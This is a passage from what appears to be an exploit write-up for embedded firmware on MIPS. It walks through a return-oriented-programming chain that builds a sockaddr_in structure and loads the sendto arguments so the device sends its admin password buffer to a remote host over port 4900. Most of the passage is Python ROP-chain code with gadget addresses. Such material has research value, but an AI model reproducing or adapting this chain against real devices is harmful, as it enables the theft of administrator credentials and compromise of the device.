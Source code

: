 To indicate *sin_family* AF_INET in our struct, the first 2 bytes need to be *0x0* and *0x2*. The next 2 bytes specify the port number, so anything works. I found *0x0* *0x2* *0x13* *0x24* in the firmware image - so we will be sending messages over port 4900. 

All we need to do now to have a valid *sockaddr_in* struct is append the IP address. As most of this is done within the *sendto* call construction, I will include the gadgets used in the next section.

### sendto

`ssize_t sendto(int sockfd, const void *buf, size_t len, int flags, const struct sockaddr *dest_addr, socklen_t addrlen);`

As you can see above, we have 6 argument to populate, meaning we will be loading values into *$t0* and *$t1*. Lets start with the easy arguments and get the *sockfd* we stored earlier into *$a0*:

```
-python
# Load sockfd address into v0
# 0x001a9f9c: lw $v0, ($sp); lw $ra, 0x14($sp); lw $s1, 0x10($sp); lw $s0, 0xc($sp); jr $ra; addiu $sp, $sp, 0x18;
chain += p32(sockfd_addr) # v0
chain += b'b' * 8
chain += p32(0xdeadbeef) # s0
chain += p32(sockaddr_addr) # s1
chain += p32(0x1a46dc + base_address) # ra

# Get the actual value of sockfd into v0
# 0x001a46dc: lw $v0, ($v0); lw $ra, 4($sp); jr $ra; addiu $sp, $sp, 8; 
chain += b'b' * 4
chain += p32(0x1746c8 + base_address)

# Move sockfd to a0 for connect
# 0x001746c8: move $a0, $v0; lw $ra, 4($sp); lw $s0, ($sp); jr $ra; addiu $sp, $sp, 8;
chain += p32(0xdeadbeef) # s0
chain += p32(0x11e568 + base_address) # ra
```

Notice how we needed the actual value of *sockfd* to be in *$a0* and not its address, we used the **lw $v0, ($v0)** gadget to achieve this, and then moved it into *$a0*.

We can then set *$a1* to be the address of the password buffer, and *$a3* to 0 as we don't need any flags set:

```
-python
# Move admin pwd buffer into a1
# 0x0011e568: lw $a1, ($sp); lw $ra, 0xc($sp); move $v0, $zero; jr $ra; addiu $sp, $sp, 0x10; 
chain += p32(pwd_buffer) # a1 (address of pwd)
chain += b'b' * 0x8
chain += p32(0xbb6e4 + base_address) # ra

# Set a3 to be zero (flags)
# 0x000bb6e4: move $a3, $zero; lw $ra, 0xc($sp); jr $ra; addiu $sp, $sp, 0x10; 
chain += b'b' * 0xc
chain += p32(0x57864 + base_address) # ra
```
